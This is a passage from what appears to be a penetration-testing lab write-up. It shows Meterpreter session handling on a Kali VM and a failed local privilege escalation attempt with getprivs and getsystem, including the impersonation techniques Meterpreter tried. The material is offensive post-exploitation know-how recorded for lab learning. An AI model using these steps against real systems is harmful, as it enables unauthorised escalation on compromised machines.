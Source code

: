 - View the `meterpreter` session on Kali VM

![Meterpreter Success](.gitbook/assets/image-20230315163132938.png)

- Background the session

```bash
background
sessions
```

![](.gitbook/assets/image-20230315163153834.png)

### Local Privilege Escalation

```bash
# From the meterpreter session
sessions 7
getprivs

    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege

getsystem
    [-] priv_elevate_getsystem: Operation failed: 691 The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)
    [-] Named Pipe Impersonation (RPCSS variant)
    [-] Named Pipe Impersonation (PrintSpooler variant)
    [-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
# failed
```
